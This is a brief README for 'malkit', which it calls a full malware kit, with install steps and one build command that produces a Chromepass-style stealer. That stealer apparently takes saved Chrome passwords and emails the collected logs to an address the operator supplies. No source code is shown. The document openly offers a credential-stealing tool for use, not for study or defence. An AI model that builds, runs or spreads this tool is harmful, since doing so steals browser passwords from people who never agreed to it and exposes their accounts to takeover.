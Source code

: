 # malkit
Full malware Kit


README in development, will be updated shortly.

To test, first create a new environment (best practice). 
I testes it on a full Anaconda environment.
Tested on python 3.7+ (doesn't work on 3.8 yet). Probably works on 3.6

Then install dependencies (pip install -r requirements.txt)

For now, the functionality that is the same as Chromepass exists as the following:  

`python malkit.py build_chromepass --email --address yourEmail@domain.com`

where the email is the one you want to receive the logs at. 

